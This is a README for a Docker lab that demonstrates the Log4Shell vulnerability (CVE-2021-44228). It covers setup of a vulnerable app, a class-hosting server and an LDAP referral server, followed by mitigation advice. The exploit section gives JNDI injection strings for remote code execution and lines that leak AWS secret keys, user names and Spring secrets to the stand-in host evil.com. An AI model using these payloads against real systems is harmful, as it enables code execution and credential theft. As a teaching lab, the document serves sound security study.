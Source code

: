 # Log4Shell docker lab for CVE-2021-44228

## The components
This docker lab makes use of three components, being:
- The vulnerable spring-boot application
- An HTTP server that hosts **.class** files used for remote code execution
- An LDAP referral server which redirects specific LDAP queries to the HTTP server

## Docker lab setup
### 1. Docker network
```bash
docker network create log4shell
```

### 2. Building the Docker images
```bash
$ docker build -t log4shell-vulnapp vulnapp
$ docker build -t log4shell-httpserver httpserver
$ docker build -t log4shell-marshalsec marshalsec
```

### 3. Running the containers
**Important note:** If you are using Windows PowerShell, replace `$(pwd)` with `${pwd}`.

```bash
$ docker run -d --name log4shell-vulnapp --network="log4shell" -p 8080:8080 log4shell-vulnapp
$ docker run -d --name log4shell-httpserver --network="log4shell" -p 3223:3223 -v $(pwd)/httpserver:/httpserver log4shell-httpserver
$ docker run -d --name log4shell-marshalsec --network="log4shell" -p 1389:1389 log4shell-marshalsec "http://<HostIp>:<Port>/#<RCEObjectName>"
```

### 4. Exploit
Open up the vulnerable application, input some false test credentials, and open up the
logs of the **log4shell-vulnapp** container.
It can be seen that the application is logging unsuccessful login attempts (e.g., *Incorrect login attempt for username 'test'*). From this small experiment, it is established that we have control over some part of the logged string (i.e., the username).

We can pass a payload like the following to remotely execute code:
```bash
${jndi:ldap://<HostIp>:1389/<RCEObjectName>}
```
Remote code execution can be done in any java version; however, machines with java versions older than the following list [[1]](#1):
- 6u211
- 7u201
- 8u191
- 11.0.1

This is due to the fact that later versions set the JVM system property `com.sun.jndi.ldap.object.trustURLCodebase` to `false` by default, which disables JNDI loading of classes from arbitrary URL code bases. **However, relying only on a new Java version as protection against this vulnerability is risky**, as the vulnerability may still be exploited on machines that contain certain "gadget" classes in the classpath of the vulnerable application and DNS queries can be used to obtain information such as environment variables.

There are several lookup substitutions that reveal sensitive information from the victim machine. Most prominently, using a payload similar to [[2](#2), [3](#3)]:
```bash
${jndi:ldap://${env:AWS_SECRET_ACCESS_KEY}.evil.com/foo}
${jndi:ldap://${sys:user.name}.evil.com/foo}
${jndi:ldap://${main:x}.evil.com/foo}
${jndi:ldap://${spring:supersecretkey}.evil.com/foo}
```
**Note:** The spring lookup attack string requires **log4j-spring-cloud-config-client** be included in the application. [[2]](#2)

### 5. Mitigation
The best way to mitigate this serious vulnerability is to upgrade log4j2 to a version **>= 2.17.0**. However, it is possible to completely mitigate the issue without upgrading using two different methods. It is strongly recommended to vendors that cannot upgrade to a newer Log4j2 version **to use both mitigation methods** specified below [[1]](#1).

### Method 1: For log4j 2.10.0 or later - Disable lookups
Disabling lookups can be done (globally) by setting the environment variable **LOG4J_FORMAT_MSG_NO_LOOKUPS** to true by editing the **/etc/environment** file and adding: `LOG4J_FORMAT_MSG_NO_LOOKUPS=true` [[1]](#1)

Alternatively, lookups can be disabled for a specific invocation of the JVM by adding the following command-line flag when running the vulnerable Java application: `‐Dlog4j2.formatMsgNoLookups=True` [[1]](#1)

### Method 2: For log4j older than 2.10.0 - Removing the vulnerable class
When using a log4j version older than 2.10.0, it is possible to remove the **JndiLookup** class from any Java applications.

### References
<a id="1">[1]</a> Menashe, S., (2021). All About Log4Shell 0-Day Vulnerability - CVE-2021-44228. [online] JFrog. Available at: <https://jfrog.com/blog/log4shell-0-day-vulnerability-all-you-need-to-know> [Accessed 24 December 2021].

<a id="2">[2]</a> Goers, R., (2021). Log4j – Log4j 2 Lookups. [online] logging.apache.org. Available at: <https://logging.apache.org/log4j/2.x/manual/lookups.html> [Accessed 24 December 2021].

<a id="3">[3]</a> Oracle. (2021). System Properties. [online] Available at: <https://docs.oracle.com/javase/tutorial/essential/environment/sysprop.html> [Accessed 24 December 2021].

